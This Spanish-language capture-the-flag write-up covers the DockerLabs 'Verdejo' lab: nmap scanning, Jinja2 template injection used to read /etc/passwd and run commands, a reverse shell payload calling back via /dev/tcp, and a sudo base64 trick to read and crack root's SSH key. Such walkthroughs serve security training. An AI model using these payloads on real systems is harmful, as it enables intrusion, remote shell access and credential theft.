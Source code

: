```yaml
---
title: DockerLabs - Verdejo
summary: "Write-up del laboratorio Verdejo de DockerLabs"
author: elcybercurioso
date: 2025-10-28 12:00
categories: [Post, DockerLabs]
tags: [fácil, ssti, sudo]
media_subpath: "/assets/img/posts/dockerlabs_verdejo"
image:
  path: main.webp
published: true
---
```


## nmap

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Verdejo]
└─$ nmap -p- -sS --min-rate 5000 -v -n -Pn 172.17.0.2 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 23:39 GMT
Initiating ARP Ping Scan at 23:39
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 23:39, 0.09s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 23:39
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 8089/tcp on 172.17.0.2
Completed SYN Stealth Scan at 23:39, 10.33s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up (0.000031s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8089/tcp open  unknown
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.63 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65541 (2.622MB)
```

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Verdejo]
└─$ nmap -sCV -p22,80,8089 172.17.0.2                          
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-27 23:39 GMT
Nmap scan report for consolelog.lab (172.17.0.2)
Host is up (0.000058s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 dc:98:72:d5:05:7e:7a:c0:14:df:29:a1:0e:3d:05:ba (ECDSA)
|_  256 39:42:28:c9:c8:fa:05:de:89:e6:37:62:4d:8b:f3:63 (ED25519)
80/tcp   open  http    Apache httpd 2.4.59 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.59 (Debian)
8089/tcp open  http    Werkzeug httpd 2.2.2 (Python 3.11.2)
|_http-title: Dale duro bro
|_http-server-header: Werkzeug/2.2.2 Python/3.11.2
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.24 seconds
```

## análisis

Tras revisar el puerto 80 del laboratorio, no encontramos ninguna forma de seguir.

Por ello, seguimos revisando el puerto 8089:

![Desktop View](/20251028004643.webp){: width="972" height="589" .shadow}

Probamos a ver si es vulnerable a un ataque `SSTI` (Server Site Template Injection), y resulta que sí que lo es:

![Desktop View](/20251028004740.webp){: width="972" height="589" .shadow}

En [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) podemos encontrar numerosos payloads que podemos ir probando hasta dar con algunos que nos valgan para cada caso.

Para leer ficheros podemos emplear el siguiente payload ([PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---read-remote-file)):

{% raw %}
```bash
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```
{% endraw %}

![Desktop View](/20251028004933.webp){: width="972" height="589" .shadow}

Sin embargo, el siguiente payload nos interesa más, ya que nos permite ejecutar comandos: ([PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#exploit-the-ssti-by-calling-subprocesspopen)):

{% raw %}
```bash
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```
{% endraw %}

![Desktop View](/20251028005131.webp){: width="972" height="589" .shadow}

## explotación

Empleando el payload anterior que nos permite ejecutar comandos, obtenemos una reverse shell en la máquina:

![Desktop View](/20251028011504.webp){: width="972" height="589" .shadow}

El payload empleado:

{% raw %}
```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1\'').read() }}
```
{% endraw %}

Vemos que obtenemos acceso a la maquina como el usuario `verde`:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Verdejo]
└─$ nc -nlvp 4444                                                        
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 50248
bash: cannot set terminal process group (94): Inappropriate ioctl for device
bash: no job control in this shell
verde@b2cec569817d:~$ whoami
whoami
verde
```

Tratamos la tty para poder operar en una consola completamente interactiva:

```bash
verde@b2cec569817d:~$ script -c bash /dev/null
script -c bash /dev/null
Script started, output log file is '/dev/null'.
verde@b2cec569817d:~$ ^Z
zsh: suspended  nc -nlvp 4444
                                                                                                                                                                                                                  
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Verdejo]
└─$ stty raw -echo;fg             
[1]  + continued  nc -nlvp 4444
                               reset xterm
verde@b2cec569817d:~$ export TERM=xterm
verde@b2cec569817d:~$ export SHELL=bash
verde@b2cec569817d:~$ stty rows 51 columns 211
```

## escalada de privilegios

Revisamos los permisos SUDO del usuario `verde`, y vemos que puede ejecutar el binario `base64` como el usuario `root`:

```bash
verde@b2cec569817d:~$ sudo -l
Matching Defaults entries for verde on b2cec569817d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User verde may run the following commands on b2cec569817d:
    (root) NOPASSWD: /usr/bin/base64
```

 Encontramos en [GTFOBins](https://gtfobins.github.io/gtfobins/base64/#sudo) que cuando tengamos permisos SUDO sobre el binario `base64` podemos leer ficheros con permisos de `root`:

![Desktop View](/20251028011841.webp){: width="972" height="589" .shadow}

Tras revisar algunos ficheros, nos damos cuenta de que en la carpeta `/root/.ssh/`, el fichero `id_rsa` existe, y debido a los permisos SUDO, lo podemos leer:

```bash
verde@b2cec569817d:~$ sudo base64 "/root/.ssh/id_rsa" | base64 --decode
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABAHul0xZQ
r68d1eRBMAoL1IAAAAEAAAAAEAAAIXAAAAB3NzaC1yc2EAAAADAQABAAACAQDbTQGZZWBB
...
Il/gI3f1l4YTSf/u4JbWrZq+eM4rXwV0pKEzt0BAwOQyGmYkFLWXjI/qtVsoeOGM6dHl1y
U21YeBLGkC2aAEPH7sOcaU5rbR9ra6Fb22zgkso3f6lrLzuz/AB9XjF571YzdDdZ/36xEW
vEACJSQrQKz9mWnewtRP5pzZk=
-----END OPENSSH PRIVATE KEY-----
```

Esto nos permite acceder a la maquina como el usuario `root` sin proporcionar la contraseña. Sin embargo, vemos que la clave id_rsa se encuentra encriptada:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Verdejo]
└─$ ssh -i id_rsa root@172.17.0.2                                                      
Enter passphrase for key 'id_rsa': 
root@172.17.0.2's password:
```

Por ello, podemos tratar de obtener la clave por fuerza bruta:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Verdejo]
└─$ john -w=/usr/share/seclists/Passwords/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
h*****           (id_rsa)     
1g 0:00:01:11 DONE (2025-10-28 00:23) 0.01396g/s 50.05p/s 50.05c/s 50.05C/s cougar..fresa
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Indicando la clave, vemos que ahora accedemos correctamente a la maquina como el usuario `root`:

```bash
┌──(elcybercurioso㉿kalilinux)-[~/Desktop/DockerLabs/Verdejo]
└─$ ssh -i id_rsa root@172.17.0.2                         
Enter passphrase for key 'id_rsa': 
Linux b2cec569817d 6.16.8+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.16.8-1kali1 (2025-09-24) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed May 22 10:36:51 2024 from 172.17.0.1
root@b2cec569817d:~# whoami
root
```

<a href="https://www.buymeacoffee.com/elcybercurioso" target="_blank"><img src="https://img.buymeacoffee.com/button-api/?text=Buy+me+a+coffee&emoji=&slug=elcybercurioso&button_colour=FFDD00&font_colour=000000&font_family=Cookie&outline_colour=000000&coffee_colour=ffffff" alt="buymecoffee_icon" /></a>

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="zweilosec" data-description="Support me on Buy me a coffee!" data-message="Gracias por tu visita! Un café me da las fuerzas para continuar!" data-color="#FFDD00" data-position="Right" data-x_margin="18" data-y_margin="18"></script>